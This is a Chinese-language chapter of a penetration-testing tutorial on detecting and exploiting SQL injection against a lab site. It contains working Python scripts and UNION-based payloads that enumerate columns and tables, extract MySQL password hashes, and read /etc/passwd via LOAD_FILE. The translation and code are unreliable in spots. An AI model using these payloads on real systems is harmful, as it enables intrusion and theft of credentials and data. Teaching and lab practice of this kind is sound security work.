


# 第六章：检测和利用 SQL 注入漏洞

在第五章，*密码测试*中，我们了解了不同的身份验证方法，并创建了一个密码暴力破解工具。在本章中，我们将学习可能影响 Web 应用程序的最危险的漏洞之一，**SQL 注入**（**SQLi**）。

在本章中，我们将看一下：

+   SQL 注入简介

+   检测 SQL 注入问题

+   利用 SQL 注入提取数据

+   高级 SQLi 利用

# SQL 注入简介

什么是 SQL 注入？这是一种输入操纵漏洞。顾名思义，这是一种漏洞，攻击者通过操纵 Web 应用程序来向应用程序数据库中注入任意的 SQL 代码。这种漏洞主要影响使用 DB 存储和检索数据的 Web 应用程序。

如今，大多数 Web 应用程序使用 DB，因此受此漏洞影响的联合 Web 应用程序数量庞大。这个问题的主要原因是当 Web 应用程序使用来自不受信任来源的数据动态构造 SQL 查询时。如果注入成功，攻击者可以：

+   提取任意数据

+   将篡改的数据插入数据库

+   绕过身份验证授权和访问控制

+   通过执行操作系统命令来控制服务器

正如你所看到的，它允许你在 Web 应用程序中做很多事情，对于攻击者来说，这是相当不错的。

想象我们的 Web 应用程序中有一个登录表单。这个登录表单将由我们的服务器端代码处理，它将从`POST`内容中获取用户名和密码。它将分配给变量，一个名字和一个密码。然后，这两个变量将用于动态构造 SQL 语句：

```py
$name=$_POST("UserName");
$pass=$_POST("UserPass");

sql="SELECT * FROM Users WHERE Username='$name' and password='$pass'"

sql="SELECT * FROM Users WHERE Username='admin' and password='superRoot'"
```

当我们的用户提供有效的用户名和密码，如`admin`和`superRoot`时，登录将成功。但如果用户提供特殊字符和结构作为输入，会发生什么？

让我们想象同样的例子，但这次攻击者将`'`或`1=1`插入为用户名和密码。这里会发生什么？生成的 SQL 查询是有效的。它将从用户表中返回所有行，因为`1=1`始终为真。这意味着它将返回用户表中的所有结果：

```py
$name=$_POST("UserName");
$pass=$_POST("UserPass");

sql="SELECT * FROM Users WHERE Username='$name' and password='$pass'"

sql="SELECT * FROM Users WHERE Username='' or '1'='1'' and password='' or '1'='1''"
```

在这个登录界面的情况下，它将使用表的第一个用户将攻击者登录。很多时候，第一个用户是`admin`，除非有一些名为`Aaron`和`Charl`等用户。

# SQLi 与盲 SQLi

当 Web 应用程序容易受到 SQL 注入攻击，但攻击者看不到注入的结果时，称为盲 SQLi。

管理员、开发人员和框架正在处理错误，以避免泄露信息。当攻击者看不到结果或错误时，我们仍然有一些方法可以帮助以盲目的方式利用 SQL 注入。它们是：

+   **布尔**：这种方法是基于注入有效负载，改变原始查询的结果，导致返回不同的页面内容

+   **基于时间的**：这种方法是基于注入有效负载，触发 SQL 服务器在处理我们的查询时出现延迟时间，从而减慢我们请求的响应时间

我们稍后将更详细地了解这些技术。

# 检测 SQL 注入问题

在本节中，我们将学习如何检测 SQL 注入以及如何在 Python 中进行交替。我们将研究在 Web 应用程序中检测 SQLi 的不同方法。然后，我们将根据其中一种方法自动检测这些问题。最后，我们将列举查询中使用的列，并识别表中的有效列名。

# 检测 SQLi 的方法

为了检测 SQLi，我们有三种可用的方法：

+   **基于错误的**：这种方法注入会打破原始查询并在服务器上生成 SQL 错误，可以在返回页面的内容中检测到：


+   **布尔**：这种方法注入会改变原始查询结果的有效负载，使应用程序返回不同的页面内容。基本上，我们将识别有效页面的大小与无效页面的大小，然后执行像我们在这里看到的布尔查询：


如果数据库版本的第一个数字是`5`，我们将得到 ID 为`1008`的页面。如果不是，我们将得到错误页面。如果我们想要确切的数据库版本，我们需要自动化这个查询并猜测每个位置的值。

+   **基于时间的**：这种方法注入会触发 SQL 服务器在处理查询时的延迟。如果这种延迟足够大，并且网络中没有明显的滞后，我们可以判断查询是否正确执行：


# 自动化检测

让我们回到编辑器并打开`Section-6`中的`SQLinjector-0.py`。重要的是要强调所有的内容和脚本都是基于 MySQL 数据库的，并且只能在这个数据库上运行。

在`import`部分，我们有与第五章中使用的相同内容。然后，我们有典型的`banner`和`usage`函数：

```py
def banner():
  print "\n***************************************"
  print "* SQlinjector 1.0 *"
  print "***************************************"

def usage():
  print "Usage:"
  print " -w: url (http://somesite.com/news.php?id=FUZZ)\n"
    print " -i: injection strings file \n"
  print "example: SQLinjector.py -w http://www.somesite.com/news.php?id=FUZZ \n"
```

然后，我们有`start`函数，没有什么新的。然后，我们有常见的选项。我们有两个参数，一个是要测试的 URL，另一个是注入的字典：

```py
def start(argv):
    banner()
  if len(sys.argv) < 2:
       usage()
       sys.exit()
  try:
    opts, args = getopt.getopt(argv,"w:i:")
  except getopt.GetoptError:
    print "Error en arguments"
    sys.exit()
  for opt,arg in opts :
    if opt == '-w' :
      url=arg
    elif opt == '-i':
      dictio = arg
  try:
    print "[-] Opening injections file: " + dictio
    f = open(dictio, "r")
    name = f.read().splitlines()
  except:
    print"Failed opening file: "+ dictio+"\n"
    sys.exit()
  launcher(url,name)
```

然后，我们转到`launcher`函数。这将用输入文件中提供的所有`injection`字符串替换`FUZZ`标记：

```py
def launcher (url,dictio):
  injected = []
  for sqlinjection in dictio:
    injected.append(url.replace("FUZZ",sqlinjection))
  res = injector(injected)
  print "\n[+] Detection results:"
  print "------------------"
  for x in res:
    print x.split(";")[0]
```

然后它将调用`injector`并打印结果。`injector`函数是基于错误的下一个 SQL 注入：

```py
def injector(injected):
  errors = ['Mysql','error in your SQL']
  results = []
  for y in injected:
    print "[-] Testing errors: " + y
    req=requests.get(y)
    for x in errors:
      if req.content.find(x) != -1:
          res = y + ";" + x
          results.append(res)
  return results
```

为此，我们有一个错误数组，其中包含我们在`Mysql`错误中找到的有限数量的字符串。然后，我们执行`requests`，如果我们找到一个错误，我们将 URL 添加到结果数组中，最后将在 launcher 函数中打印出来。

所以，让我们尝试这个脚本。还记得我们在第四章中用我们的暴力脚本识别出来的有趣文件吗？有一个特别需要关注的文件。它是`/users.php`：


这个文件似乎接受一个输入并返回该用户 ID 的用户和行。让我们看看如果我们输入`1`会发生什么。你可以看到在这种情况下，我们得到了一个带有`ID: 1`，`Name: johnny`和`role: test`的响应：


太棒了！让我们复制 URL 作为我们脚本的输入。

让我们去控制台并使用以下参数运行 SQL 注入器：

```py
python SQLinjector-0.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

这些是我们从浏览器复制的 URL 和我们为此练习创建的注入文件。

接下来，按*Enter*：


我们可以看到脚本检测到以下字符生成的 SQL 错误；单引号和括号。

我们可以检查浏览器以查看这些字符生成的错误。现在，在浏览器中，用`'`替换这个`1`并按*Enter*：


我们可以看到当生成 SQL 错误时，我们可以操纵该查询。

让我们继续改进 SQL 注入脚本。

现在，打开脚本`SQLinjector-1.py`。你可以看到我们有两个新函数，`detect_columns`和`detect_columns_names`。

```py
def detect_columns(url):
  new_url= url.replace("FUZZ","admin' order by X-- -")
  y=1
  while y < 20:
    req=requests.get(new_url.replace("X",str(y)))
    if req.content.find("Unknown") == -1:
      y+=1
    else:
      break
  return str(y-1)

def detect_columns_names(url):
  column_names = ['username','user','name','pass','passwd','password','id','role','surname','address']
  new_url= url.replace("FUZZ","admin' group by X-- -")
  valid_cols = []
  for name in column_names:
    req=requests.get(new_url.replace("X",name))
    if req.content.find("Unknown") == -1:
      valid_cols.append(name)
    else:
      pass
  return valid_cols
```

`detect_columns`尝试识别在这个 select 语句中使用了多少列，以及我们试图操纵多少列。这些信息对于构建我们的 SQL 查询是很重要的。为了做到这一点，我们使用了 order by 技术。我们可以添加 order by `X`，其中`X`是一个数字。如果这个数字小于或等于列的数量，它将返回结果；如果不是，它将返回一个错误。因此，如果我们尝试这样做直到出现错误，这将意味着列的数量小于`X`。

让我们在浏览器中看一下。现在，我们尝试使用`a' order by 1`。我们需要用`-- -`结束查询以避免错误：


用`1`，我们得到了结果。所以，他们至少使用了一列。让我们尝试三列。我们得到了`Unknown column '3' in 'order close'`：


这意味着少于三列。

在这种情况下，它将是`2`：


我们还有一个名为`detect_columns_names`的新函数。这个函数尝试识别 SQL 查询中使用的表中的有效列名。这很有用，因为它将帮助我们定制我们的查询以提取数据。我们将使用 group by 技术。我们添加`group by`和列的名称。如果它存在，它将返回有效的结果；如果不是，我们会得到一个错误。数组`column_names`中有一个有趣的列名列表，但实际上，你需要一个广泛的单词字典来识别尽可能多的列。

让我们在浏览器中看一个例子。这一次，我们将使用`group`，并且将`password`作为列名。

然后，我们按下*Enter*。我们可以看到它是有效的，我们得到了`admin`的结果：


但是如果我们使用`username`作为列名呢？我们可以在 group 语句中添加`username`。我们可以看到列`username`是无效的：


因此，我们知道了用于识别无效列名的错误消息。

现在，让我们在命令行中运行脚本。我们将切换到`SQLinjection-1.py`并运行它：

```py
python SQLinjector-1.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

我们可以看到我们得到了与之前相同的结果，加上列的数量：



在这种情况下，列的数量是`2`，找到的一些列名是`name`、`passwd`、`id`和`role`。

恭喜！你已经创建了一个 SQL 注入检测器。

# 利用 SQL 注入提取数据

在这一部分，我们将学习如何利用 SQL 注入以及如何在 Python 中进行交替。我们将学习可以使用 SQL 注入提取哪些类型的数据，然后我们将交替一些这些技术，比如在上一节中的 SQL 注入器脚本中自动化基本数据提取。

# 我们可以用 SQLi 提取哪些数据？

一旦我们确定了一个有效的 SQL 注入，就是时候决定我们要寻找什么了。在这里，我们有一个最典型的事物列表：

+   **基本数据**：例如，数据库版本、运行数据库的用户、当前数据库、数据库目录等等

+   **高级数据**：MySQL 用户名和密码、数据库、表名、列名以及表中的内容

+   **操作系统文件**：只要运行数据库的用户有权限，我们可以读取文件系统中的任何文件

这些是一些最有用和通常提取的数据。我鼓励你继续学习一旦你有一个可用的 SQL 注入后可以做的其他事情。

一个很好的起点是 pentestmonkey 的 Cheat Sheet ([`pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet`](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet))。

# 自动化基本提取

在我们获得一个可用的 SQL 注入后，我们想要获取的第一件事是关于我们正在使用的数据库的信息，比如数据库版本、当前用户、当前数据库等等。

为了做到这一点，我们需要使用`SELECT @@ version;`。我们将获得数据库版本。`SELECT user();`将获得运行数据库的用户。对于我们的示例，我们必须使用以下注入来获取版本；`'union SELECT1, @@version;-- -`。我们需要在`@@version`之前加上`1`，以匹配查询中受 SQL 注入影响的列数，这是受 SQL 注入影响的列数。

在我们的情况下，有两列；这就是为什么我们添加`1`。

让我们去我们的编辑器，并继续处理文件`SQLinjector-2.py`。我们添加了两个新函数，以便从数据库中获取版本和当前用户。您会注意到我们有以下注入：

```py
def detect_user(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%201,CONCAT('TOK',user(),
 'TOK')--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  users=re.findall(reg,req.content)
  for user in users:
    print user
  return user

def detect_version(url):
  new_url= url.replace("FUZZ","\'%20union%20SELECT%201,CONCAT('TOK',@@version,'TOK')--%20-")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  version=re.findall(reg,req.content)
  for ver in version:
    print ver
  return ver
```

`%20`是空格字符的 URL 编码版本。我们正在使用`CONCAT`命令将字符串连接到结果的开头和结尾。这些字符串将作为标记，用于识别 HTML 结果中的查询输出。现在，我们将看到提取版本所需的代码。

我们通过使用正则表达式处理结果来做到这一点，以识别标记并提取它们之间找到的字符串。我们定义正则表达式，然后使用`re`库的`findall`函数与请求响应的内容一起使用，并遍历结果。

在这种情况下，应该只有一个。我们将使用`@@version`而不是`user`来获得数据库版本。

现在，我们想要获取 MySQL 用户名和密码哈希。我们需要的查询是`SELECT user, password from mysql.user;`。

请记住，只有当连接到数据库的用户具有访问表的权限时，此方法才有效。最佳实践建议游戏阶段，但仍有许多人这样做。

我们添加了函数`steal_users`来提取这些数据。我们将使用与以前相同的技术，以便在 HTML 结果中识别输出的标记。让我们在命令行中运行它并查看输出。我们将使用与以前相同的命令行：


现在，我们可以看到提取的新数据。数据库版本已打印。在这种情况下，它是`5.6.28`。它还为我们提供了有关操作系统的提示；`Ubuntu 15.10.1`。运行数据库的用户是 root，这意味着我们有高权限，可以做更有趣的事情，比如访问存储用户名和密码哈希的表`MySQL.user`。

我们可以看到用户`root`、`debian-sys-maint`和`phpmyadmin`的哈希值。重复发生是因为与每个用户关联的不同主机条目。如果需要，这些密码哈希可以使用 John the ripper 等工具破解。很好。你对目标有了一个很好的想法，所以让我们继续提取数据。

# 高级 SQLi 利用

在这一部分，我们将添加一个函数，以读取数据库中的所有表名，并将添加一个函数，以从数据库服务器操作系统中读取文件。

首先，我们将看到如何获取数据库中的所有表名，以便查看是否有感兴趣的内容，然后我们将添加从操作系统文件系统中获取决赛的能力。

现在，让我们打开文件`SQLinjector-3.py`。我们在这里添加了一个新函数，它将帮助我们获取不同模式中的表名，除了我们正在过滤以减少输出中的噪音的那些：

```py
def detect_table_names(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%20CONCAT('TOK',
  table_schema,'TOK'),CONCAT('TOK',table_name,'TOK')%20FROM
  %20information_schema.tables%20WHERE%20table_schema%20!=%20
  %27mysql%27%20AND%20table_schema%20!=%20%27information_schema%27
  %20and%20table_schema%20!=%20%27performance_schema%27%20--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  tables=re.findall(reg,req.content)
  for table in tables:
    print table
```

结构与以前相同；我们有需要的查询，用于帮助传递结果和用于传递结果的正则表达式，然后我们打印结果。最后，在`launcher`中进行函数调用。让我们在命令行中再次运行它。

从命令行中，让我们使用与以前相同的参数运行它，使用`SQLinjector-3.py`和相同的参数：

```py
python SQLinjector-3.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

很好，现在您可以在输出中看到我们获得了模式名称和表名称：



在这种情况下，`pyweb`和`phpmyadmin`是模式，其他的是表`user`等等。

让我们继续到最后一个例子。让我们转到编辑器并打开文件`SQLinjection-4.py`。这非常酷，它为攻击者打开了一个新的机会。让我们看看新函数`read_file`：

```py
def read_file(url, filename):
  new_url= url.replace("FUZZ","""A\'%20union%20SELECT%201,CONCAT('TOK',
 LOAD_FILE(\'"+filename+"\'),'TOK')--%20-""")
  req=requests.get(new_url)
  reg = ur"TOK(.+?)TOK+?"
  files= re.findall(reg,req.content)
  print req.content
  for x in files:
    if not x.find('TOK,'):
      print x
```

我们将使用来自前面代码的查询来读取文件。基本上，这里的新东西是使用`LOAD_FILE`函数。

我们可以使用这个函数，正如其名称所示，它将加载一个文件，并且我们将把内容放在我们在查询中选择的列中。我们将与 union 一起使用它。然后，在`launcher`中，我们需要调用这个函数并传入我们想要读取的文件。在这个例子中，我们使用`filename="/etc/passwd"`：

```py
  filename="/etc/passwd"
  message = "\n[+] Reading file: " + filename
  print colored(message,'green')
  print "---------------------------------"
  read_file(url,filename)
```

这个文件包含了 Linux 操作系统的用户。让我们在命令行中运行它。使用与之前相同的命令行，只是将文件名更改为`SQLinjector-4.py`。然后，哇，我们就得到了确切密码文件的内容：


现在，我们可以更多地了解这个系统。让我们花点时间思考一下，通过滥用一个简单的编程错误，我们已经取得了什么成就；我们正在从数据库和操作系统中获取大量信息 - 而这只是个开始。

我建议玩弄这个直到你对这些技术感到舒适。如果有什么不对劲，回顾一下你的 SQL 语法。在开始阶段犯错误是非常常见的。

# 总结

在本章中，我们学习了如何通过 SQL 注入枚举数据库中的表名，并且还学会了如何通过 SQL 注入从操作系统文件系统中读取文件。

记得查看工具，比如 SQL map 或 SQL brute，以了解更多关于这些工具如何工作的信息。

在第七章，*拦截 HTTP 请求*，我们将学习关于 HTTP 代理的知识，并且我们将基于 mitmproxy 工具创建我们自己的 HTTP 代理。
